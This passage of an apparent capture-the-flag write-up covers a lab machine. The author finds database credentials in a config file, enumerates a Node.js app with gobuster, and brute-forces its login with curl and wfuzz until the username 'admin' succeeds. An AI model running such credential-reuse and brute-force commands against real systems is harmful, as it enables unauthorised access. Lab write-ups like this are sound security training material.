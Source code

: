 ```
```
We browse them and we found a couple of login and admin pages. We could try to bruteforce them using the 2 names we already have but we decided to look around a bit more  

In /config.php we find the login credentials to mysqli
```
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword  = 'Zk6heYCyv6ZE9Xcg';
$db = "login";

$conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
```

We try the password in the different logins but no lack. In order to automate the user/passwords guessing we create a file with all the potential usernames. We load the file in burp intruder and fuzz the username associated with the password we have.  

We tried to login in /login.php, /management, Ajenti in port 8000, ssh. No luck so far !  

A node js app is listening on port 3000. It requires an authentication to serve the responses. We can try to play around with this service and hope the credentials we have are the ones needed here.

We run a directory/file bruteforce 
```
gobuster dir -u http://10.10.10.137:3000/ -w /usr/share/wordlists/dirbust er/directory-list-2.3-medium.txt -o gobuster:3000.out -t 30 -x php,json,js,txt
/login (Status: 200)
/users (Status: 200)
/Login (Status: 200)
/Users (Status: 200)
```

Let's do some google searches and study how the authentication may work.  

It may be possible that we get the auth token upon authentication with the credentials we have.  
Then we could pass the auth token in the request to the json node application and get the response.

Let's try in practise.  
By browsing 10.10.10.137:3000/login we are not required to provide an auth token. This is the page where we can authenticate through username and password and get an auth token. The default json variable names used by node application for authentication are "username" and "password". We can craft our request
```
> curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"root"}' http://10.10.10.137:3000/login
forbidden
```
The authentication is not succesfull. However the error description suggest that the supplied credentials are not correct. Burpsuite or Wfuzz is again handy here for fuzzing the username with the list of potential username we have.

```
>wfuzz -z file,people -H "Content-Type: application/json" -d '{"password":"Zk6heYCyv6ZE9Xcg", "username":"FUZZ"}'  http://10.10.10.137:3000/login


===================================================================
ID           Response   Lines    Word     Chars       Payload                                          
===================================================================

000000001:   403        0 L      1 W      9 Ch        "Luke"                                           
000000008:   200        0 L      2 W      219 Ch      "admin"                                          
```